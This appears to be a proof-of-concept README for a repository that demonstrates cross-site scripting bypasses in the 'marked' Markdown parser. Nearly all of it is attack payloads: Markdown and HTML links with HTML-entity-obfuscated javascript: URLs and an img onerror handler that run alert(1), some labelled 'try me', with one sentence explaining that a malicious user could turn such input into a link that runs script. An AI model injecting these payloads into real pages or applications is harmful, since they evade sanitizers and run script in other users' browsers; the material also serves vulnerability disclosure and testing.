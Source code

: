 # marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />


If a malicious user could provide this input to the application javascript&#x58document;alert&#40;1&#41; resulting in a valid link, that when a user clicked it would execute alert(1).

[try me](javascript&#x58document;alert&#40;1&#41;)

[also try me](javascript:alert&#39;'boo'&#39;)


[URL](javascript&#58document;alert&#40;1&#41;)
